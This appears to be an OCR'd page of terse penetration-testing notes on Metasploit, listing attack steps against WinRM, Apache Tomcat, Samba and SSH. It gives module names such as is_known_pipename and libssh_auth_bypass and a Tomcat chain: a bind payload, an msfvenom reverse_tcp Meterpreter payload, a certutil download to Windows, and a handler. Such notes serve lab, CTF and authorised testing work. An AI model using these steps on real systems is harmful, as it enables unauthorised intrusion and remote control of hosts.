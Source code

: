 `search shell_to_meterpreter`
winrm
=
`search type:auxiliary name:winrm`
`search type:exploit name:winrm`
run through the winrm auth methods module
run through the brute force
and run through the exploit modules

Apache Tomcat
=
port 8080

1. will need to` use java/jsp_tcp_bind` payload - no meterpreter yet - may need to run multiple times
2. need to set command shell based on operation system
3. create msfvenom meterpreter payload reverse_tcp
4. setup webserver
5. download to windows system using `certutil -urlcache -f url_to_file filenamesave.exe`
6. setup multi/handler
7. execute payload

Samba
=
`use exploit/linux/samba/is_known_pipename`

SSH
=
check for libssh in nmap output
`usr scanner/ssh/libssh_auth_bypass`